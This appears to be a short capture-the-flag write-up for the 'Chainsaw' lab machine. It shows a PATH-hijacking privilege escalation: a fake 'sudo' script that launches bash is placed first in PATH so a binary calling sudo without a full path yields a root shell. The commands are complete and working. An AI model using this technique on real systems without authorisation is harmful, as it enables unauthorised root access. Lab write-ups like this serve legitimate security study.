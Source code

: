 # Alternative way to exploit Chainsaw

## Privilege Escalation to root

When looking at the traces of the _ChainsawClub_ binary with `strings` or `ltrace`, it shows that it gets executed with `sudo`
```markdown
(...)
sudo -i -u root /root/ChainsawClub/dist/ChainsawClub/ChainsawClub
(...)
```

As it doesn't specify the full path of `sudo`, it is possible to create our own script called _"sudo"_ and execute whatever we want.
Before this can work, is has to be clarified that the current path is the first path it should look for `sudo`.

Contents of the new _"sudo"_ script:
```markdown
#!/bin/bash

bash
```
```markdown
chmod +x sudo
```

Setting current path in the _PATH environment variable_:
```markdown
export PATH=$(pwd):$PATH
```
```markdown
echo $PATH

# Output
/home/bobby/projects/ChainsawClub:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

The first path it will look for `sudo` now is in the current directory, where also the binary is placed.
```markdown
./ChainsawClub
```

After executing the binary _ChainsawClub_, it will start a bash session as root!
